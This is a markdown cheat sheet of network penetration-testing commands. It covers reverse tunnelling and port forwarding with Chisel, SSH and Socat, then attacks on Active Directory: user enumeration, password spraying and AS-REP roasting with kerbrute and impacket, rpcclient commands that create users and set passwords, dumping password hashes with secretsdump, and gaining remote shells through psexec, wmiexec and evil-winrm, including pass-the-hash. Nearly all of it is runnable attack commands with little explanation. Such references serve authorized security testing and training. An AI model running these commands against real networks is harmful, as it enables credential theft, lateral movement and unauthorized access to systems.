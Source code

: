 # Network Pentesting Methodologies

## Summary
- [Pivoting within network](#pivoting-within-network)
  - [Remote port forwarding with Chisel](#remote-port-forwarding-with-chisel)
  - [Getting internet access on remote machine with Chisel](#getting-internet-access-on-remote-machine-with-chisel)
  - [Port forwarding with SSH](#port-forwarding-with-ssh)
  - [Port forwarding with Socat](#port-forwarding-with-socat)
- [Pentesting Active Directory](#pentesting-active-directory)
  - [Enumerate users](#enumerate-users)
  - [Enumerate using RPCClient](#enumerate-using-rpcclient)
  - [Dump password hashes](#dump-password-hashes)
  - [Windows remoting](#windows-remoting)
  - [Shell on remote machine](#shell-on-remote-machine)

## Pivoting within network
### Remote port forwarding with Chisel
*Run on local machine*

`chisel server -p 8000 --reverse`

*Run on remote machine*

`chisel client 10.0.0.1:8000 R:{remote-port}:{target-ip}:{target-port}`

### Getting internet access on remote machine with Chisel
*Run on local machine*

`chisel server -p 8000`

*Run on remote machine*

`chisel client 10.0.0.1:8000 {remote-port}:{target-address}:{target-port}`

### Port forwarding with SSH
`ssh -L {remote-port}:{target-ip}:{target-port} username@10.0.0.1 -p 22`

### Port forwarding with Socat
*Set up a listener on remote machine*

`socat tcp-listen:4444,reuseaddr,fork tcp:{ip2forward}:{port2forward}`

*Connect to listener from local machine*

`socat TCP:10.0.0.1:4444 -`


## Pentesting Active Directory
### Enumerate users
```
kerbrute userenum -d domain.com rockyou.txt
kerbrute passwordspray -d domain.com users.txt Password123
kerbrute bruteuser -d domain.com rockyou.txt user1
impacket-lookupsid domain.com/guest@10.0.0.1
impacket-GetNPUsers -no-pass -usersfile userlist.txt -dc-ip 10.0.0.1 example.com/
```

### Enumerate using RPCClient
| Commands | Descriptions |
| -------- | ------------ |
| rpcclient -U "" 10.0.0.1 | Connect to AD |
| querydominfo | Domain information query |
| srvinfo | Server information |
| enumdomusers | Enumerate users |
| enumdomgroupd | Enumerate groups |
| querygroup 0x200 | Group queries |
| queryuser username | User queries |
| enumprivs | Enumerate privileges |
| getdompwinfo | Get domain password information |
| getusrdompwinfo 0x200 | Get user domain password |
| createdomuser username | Create domain user |
| setuserinfo2 username 24 password | Set a password for domain user |
| deletedomuser username | Delete domain user |
| enumalsgroups builtin | Enumerate alias groups |

### Dump password hashes
`impacket-secretsdump domain.com/username@10.0.0.1`

### Windows remoting
`crackmapexec winrm 10.0.0.1 -u username -p password`

### Shell on remote machine
```
impacket-psexec domain.com/username@10.0.0.1
impacket-wmiexec domain.com/username@10.0.0.1
evil-winrm -i 10.0.0.1 -u username -p password
evil-winrm -i 10.0.0.1 -u administrator -H "hash"                           1 ⨯
impacket-wmiexec domain.com/admin@10.0.0.1 -hashes [hash]
```
